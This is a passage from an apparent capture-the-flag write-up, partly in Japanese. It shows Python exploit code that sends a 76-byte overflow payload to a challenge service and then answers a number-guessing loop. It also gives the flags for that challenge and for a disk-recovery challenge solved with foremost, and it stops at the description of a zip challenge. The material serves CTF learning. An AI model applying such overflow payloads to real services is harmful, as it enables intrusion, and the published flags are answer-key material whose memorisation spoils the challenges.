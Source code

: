 ```Python
    
payload = b'A' * (44+32)
s.sendlineafter("Who goes there?\n", payload)


for i in range(len(ans)+1):
    msg = s.recvregex('I am thinking of a number from 1-100000. What is it?|You.*')
    if "You" in msg:
        msg = s.recvall()
        print(msg)
        s.close()
        break

    print(msg)
    s.sendline(str(ans[i]))
    print("0x{:x}".format(ans[i]))
    msg = s.recvline()  # Impressive
    print(msg)

```

<br>
Flag `gigem{Y0uve_g0ne_4nD_!D3fe4t3d_th3_tr01L!}`



<br /><br />
<br /><br />
## [Misc]: CORRUPTED_DISK
- - -
### Challenge
> We've recovered this disk image but it seems to be damaged. Can you recover any useful information from it?

Attachment:

- recovered_disk.img


<br />
### Solution
これは、foremostで取れました。

Flag: `gigem{wh3r3_w3r3_601n6_w3_d0n7_n33d_h34d3r5}`



<br /><br />
<br /><br />
## [Misc]: ZIPPITY_DOO_DAH
- - -
### Challenge
> Lorelei, a nuclear engineer, is practicing how to create folders to organize her notes. She works closely with POTUS to secure our nuclear missiles. In order for her to send the nuclear codes to the correct authorities, she needs to zip all the files and make the data hard to find. Your mission, should you choose to accept it, is to intercept and find the codes (the flag).
